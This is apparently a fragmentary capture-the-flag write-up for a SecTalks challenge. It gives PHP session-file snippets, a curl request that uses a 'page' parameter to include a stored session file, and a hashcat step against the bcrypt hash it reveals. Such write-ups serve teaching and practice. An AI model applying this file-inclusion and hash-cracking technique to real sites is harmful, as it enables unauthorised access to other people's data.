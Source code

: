 PHPSESSID=63087ha6b70174modmqd9g8i20


$in = file_get_contents('php://input');

{"status": "..eventStart","timestamp": 0}


$folder = '/tmp/sess/' . sha1(session_id()) . '/';
$ANALYTICS_FILE_NAME = 'analytics.json';


$fname = $_SESSION['folder'] . $data['timestamp'] . '_' . $ANALYTICS_FILE_NAME;



$fname = $_SESSION['folder'] . $data['timestamp'] . '_' . 'analytics.json'





curl -H "Cookie: PHPSESSID=63182lee6v5cccu5iia1dmeksp" -i http://game.syd.sectalks.org:8145/?page=/tmp/sess/38d2fa5bbdab3f0c3c215756a55ad2b3dce58d88/0_analytics.json

Set-Cookie: PHPSESSID=63182lee6v5cccu5iia1dmeksp; path=/
X-Analytics: eqzd/6Pe90IdevxYwcgesOK4zYK5Q7STYZMq9K1.Hnjc4qysCOaNG


$name = '/tmp/sess/38d2fa5bbdab3f0c3c215756a55ad2b3dce58d88/0_analytics.json'


{"key":"$2y$04$eqzd\/6Pe90IdevxYwcgesOK4zYK5Q7STYZMq9K1.Hnjc4qysCOaNG","data":"[\"\",\"\",\"\",\"iQ==\",\"6Mynh+VGJYP9UJui\",\"\",\"\",\"\",\"\"]"}


JSON.parse(unescape('[\"\",\"\",\"\",\"iQ==\",\"6Mynh+VGJYP9UJui\",\"\",\"\",\"\",\"\"]'))

            encrypt($data['type'], $key),
            encrypt($data['url'], $key),
            encrypt($data['ua'], $key),
            encrypt($data['timestamp'], $key),  "iQ=="
            encrypt($data['status'], $key),     "6Mynh+VGJYP9UJui"
            encrypt($data['event_data']['type'], $key),
            encrypt($data['event_data']['target'], $key),
            encrypt($data['event_data']['x'], $key),
            encrypt($data['event_data']['y'], $key)

BCrypt, 4 rounds, fixed version 2y, with a salt.

$2y$04$eqzd/6Pe90IdevxYwcgesOK4zYK5Q7STYZMq9K1.Hnjc4qysCOaNG

hashcat $2y$04$eqzd/6Pe90IdevxYwcgesOK4zYK5Q7STYZMq9K1.Hnjc4qysCOaNG





$name = '/tmp/sess/bf3b9eb1795d31477f2bd2d51ad8250a135d7370/1553027346389_analytics.json'


{"key":"$2y$06$DnQbL\/CD2zi\/ovBj0TvRZOGIUsk4V5uKFRs9ZWmUtx.Mn1nLrmQe.","data":"[\"jSyYicLhzYn4DAkaZO1I\",\"N4CVB76XKHr2EUiBZU57zm0jA8JUn6MFXOoHpwOa2CrEwA==\",\"eB2BNop5yakJCMbxR6itzT489E8nzLvid1WQjQSN9edMdNCTW4hzF+r4xB57s2y2r+ztFX6cv6\\\/sSdAVrOnlh\\\/yiET4=\",\"Vz8gowWwbshnPyz7bg==\",\"r8hXqrrHB3fLbQ==\",\"vBMa33M=\",\"eT71VXddck2WQ9bpgdiAYyrEeTLUJCE=\",\"UbF2\",\"9Tmi\"]"}
